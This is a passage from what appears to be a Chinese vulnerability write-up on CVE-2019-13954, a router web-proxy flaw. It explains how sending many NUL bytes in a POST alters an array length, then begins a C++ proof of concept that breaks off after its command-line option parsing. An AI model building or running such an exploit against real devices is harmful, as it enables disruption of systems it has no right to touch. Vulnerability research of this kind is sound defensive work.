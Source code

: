 输入abcdefghimn

![image-20210930033355353](https://tva1.sinaimg.cn/large/008i3skNly1guy43v105oj60ym0u0wnb02.jpg)

查看内存发现，输入d额是abcdefghimn，数组的空间被依次赋值为a,b,c,d,e，可见getline把空行转化为了\0

![image-20210930033642234](https://tva1.sinaimg.cn/large/008i3skNly1guy46rr6n3j61cw0u0gvn02.jpg)

![image-20210930034813169](https://tva1.sinaimg.cn/large/008i3skNly1guy4iqjyhnj624k06240h02.jpg)

POC：

因此post发送大量/0就可以改变数组长度啦

```c++
#include <cstdlib>
#include <iostream>
#include <boost/cstdint.hpp>
#include <boost/program_options.hpp>

#include "jsproxy_session.hpp"
#include "winbox_message.hpp"

namespace
{
    const char s_version[] = "CVE-2019-13954 PoC 1.1.0";

    bool parseCommandLine(int p_argCount, const char* p_argArray[],
                          std::string& p_username, std::string& p_password,
                          std::string& p_ip, std::string& p_port)
    {
        boost::program_options::options_description description("options");
        description.add_options()
        ("help,h", "A list of command line options")
        ("version,v", "Display version information")
        ("username,u", boost::program_options::value<std::string>(), "The user to log in as")
        ("password", boost::program_options::value<std::string>(), "The password to log in with")
        ("port,p", boost::program_options::value<std::string>()->default_value("80"), "The HTTP port to connect to")
        ("ip,i", boost::program_options::value<std::string>(), "The IPv4 address to connect to");

        boost::program_options::variables_map argv_map;
        try
        {
            boost::program_options::store(
                boost::program_options::parse_command_line(
                    p_argCount, p_argArray, description), argv_map);
        }
        catch (const std::exception& e)
        {
            std::cerr << e.what() << "\n" << std::endl;
            std::cerr << description << std::endl;
            return false;
        }

        boost::program_options::notify(argv_map);
        if (argv_map.empty() || argv_map.count("help"))
        {
            std::cerr << description << std::endl;
            return false;
        }

        if (argv_map.count("version"))
        {
            std::cerr << "Version: " << ::s_version << std::endl;
```